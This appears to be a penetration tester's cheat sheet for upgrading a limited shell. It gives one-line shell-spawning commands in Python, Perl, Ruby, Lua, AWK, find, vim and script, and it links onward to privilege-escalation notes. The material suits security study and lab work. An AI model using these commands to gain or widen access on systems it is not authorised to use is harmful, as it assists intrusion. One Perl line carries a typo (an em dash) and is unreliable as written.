 [GTFO bins](https://gtfobins.github.io/) 

`script /dev/null -c bash`
# Python
```shell-session
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
# Perl
```shell-session
$ perl —e 'exec "/bin/sh";'
```
```perl
perl: exec "/bin/sh";
```
# Ruby
```ruby
ruby: exec "/bin/sh"
```
# Lua
```lua
lua: os.execute('/bin/sh')
```
# AWK
```shell-session
$ awk 'BEGIN {system("/bin/sh")}'
```
# Find
```shell-session
$ find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
$ find . -exec /bin/sh \; -quit
```
# Vim
```shell-session
$ vim -c ':!/bin/sh'
```
```vim
vim
:set shell=/bin/sh
:shell
```
Possible pathways after upgrading shell:
- [[Windows Privesc.]]
- [[Linux Privesc.]]